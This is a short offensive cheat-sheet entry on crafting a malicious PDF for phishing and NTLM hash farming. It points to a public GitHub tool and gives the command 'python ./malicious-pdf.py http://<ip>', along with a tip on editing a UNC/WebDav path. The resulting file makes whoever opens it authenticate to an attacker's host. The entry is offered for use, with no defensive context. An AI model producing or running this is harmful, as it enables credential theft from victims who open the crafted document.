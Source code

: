 # malicious-pdf

% pdf, phishing, ntlm farming

#plateform/linux #target/remote #cat/ATTACK/COERCE-FILE

## craft malicious pdf (hash farming) 
need to modifie source `\\\\<ip>\\test`` for WebDav
https://github.com/jonaslejon/malicious-pdf
```
python ./malicious-pdf.py http://<ip>
```
